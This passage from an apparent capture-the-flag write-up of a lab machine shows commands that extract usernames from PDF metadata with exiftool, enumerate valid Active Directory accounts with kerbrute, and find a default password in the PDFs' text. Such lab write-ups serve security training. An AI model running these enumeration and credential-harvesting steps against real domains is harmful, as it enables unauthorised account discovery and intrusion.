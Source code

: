 Running `exiftool` tool again to new downloaded files and get more usernames, total 30
```bash
❯ exiftool * -Creator -s -s -s | grep -v '========' | head -n -1 | sort | uniq | wc -l
30
```

And all usernames are valid
```bash
❯ kerbrute userenum -d intelligence.htb --dc 10.10.10.248 users.txt

# ... [snip] ...

2021/11/27 10:30:10 >  Using KDC(s):
2021/11/27 10:30:10 >  	10.10.10.248:88

2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Reed@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Brian.Baker@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Anita.Roberts@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Danny.Matthews@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Ian.Duncan@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Darryl.Harris@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Brian.Morris@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Wilson@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Daniel.Shelton@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 David.Mcbride@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jason.Wright@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Kelly.Long@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Richard.Williams@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jennifer.Thomas@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Kaitlyn.Zimmerman@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jessica.Moody@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Nicole.Brock@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 John.Coleman@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jose.Williams@intelligence.htb
2021/11/27 10:30:11 >  [+] VALID USERNAME:	 Jason.Patterson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Teresa.Williamson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Samuel.Richardson@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Scott.Scott@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Veronica.Patel@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Tiffany.Molina@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Thomas.Hall@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Travis.Evans@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 William.Lee@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Stephanie.Young@intelligence.htb
2021/11/27 10:30:12 >  [+] VALID USERNAME:	 Thomas.Valenzuela@intelligence.htb
2021/11/27 10:30:12 >  Done! Tested 30 usernames (30 valid) in 1.255 seconds
```

Read through all the pdfs using `pdf2txt` tool and somewhere in the text found a password, don't know which pdf contains this text but we got a password.
```bash
❯ pdf2txt *

# ... [snip] ...

New Account Guide

Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876

After logging in please change your password as soon as possible.


# ... [snip] ...
```